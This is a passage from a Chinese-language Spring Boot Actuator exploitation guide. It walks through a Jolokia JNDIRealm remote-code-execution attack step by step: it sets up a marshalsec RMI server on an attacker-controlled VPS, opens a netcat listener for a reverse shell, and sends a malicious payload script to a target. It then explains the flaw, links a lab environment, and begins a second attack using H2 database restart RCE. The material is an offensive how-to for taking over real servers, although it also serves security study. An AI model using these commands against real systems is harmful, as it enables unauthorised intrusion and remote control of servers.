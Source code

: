 下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```php
nc -lvp 443
```

##### 步骤六：发送恶意 payload

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。

#### 漏洞原理：

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞

#### 漏洞分析：

[Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)

#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```php
http://127.0.0.1:9094/env
```

### 0x06：restart h2 database query RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）

#### 利用方法：

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发
